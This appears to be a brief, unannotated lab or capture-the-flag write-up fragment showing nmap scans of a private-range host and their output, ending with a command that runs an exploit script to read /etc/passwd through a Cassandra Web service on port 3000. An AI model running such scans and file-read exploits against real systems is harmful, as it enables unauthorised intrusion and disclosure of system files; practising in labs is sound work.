 **sudo nmap \-sS \-sV \-\-script=default 192\.168\.201\.240**
PORT     STATE  SERVICE          VERSION
22/tcp   open   ssh              OpenSSH 7\.9p1 Debian 10\+deb10u2 \(protocol 2\.0\)
| ssh\-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c \(RSA\)
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e \(ECDSA\)
|\_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 \(ED25519\)
80/tcp   open   http             Apache httpd 2\.4\.38
|\_http\-server\-header: Apache/2\.4\.38 \(Debian\)
|\_http\-title: 403 Forbidden
139/tcp  closed netbios\-ssn
445/tcp  closed microsoft\-ds
3000/tcp open   http             Thin httpd
|\_http\-server\-header: thin
|\_http\-title: Cassandra Web
8021/tcp open   freeswitch\-event FreeSWITCH mod\_event\_socket
Service Info: Host: 127\.0\.0\.1; OS: Linux; CPE: cpe:/o:linux:linux\_kernel
**
nmap \-sV \-p\- 192\.168\.201\.240 \-v**
PORT     STATE  SERVICE          VERSION
22/tcp   open   ssh              OpenSSH 7\.9p1 Debian 10\+deb10u2 \(protocol 2\.0\)
80/tcp   open   http             Apache httpd 2\.4\.38
139/tcp  closed netbios\-ssn
445/tcp  closed microsoft\-ds
3000/tcp open   http             Thin httpd
8021/tcp open   freeswitch\-event FreeSWITCH mod\_event\_socket

python 49362\.py 192\.168\.246\.240 /etc/passwd \-p 3000

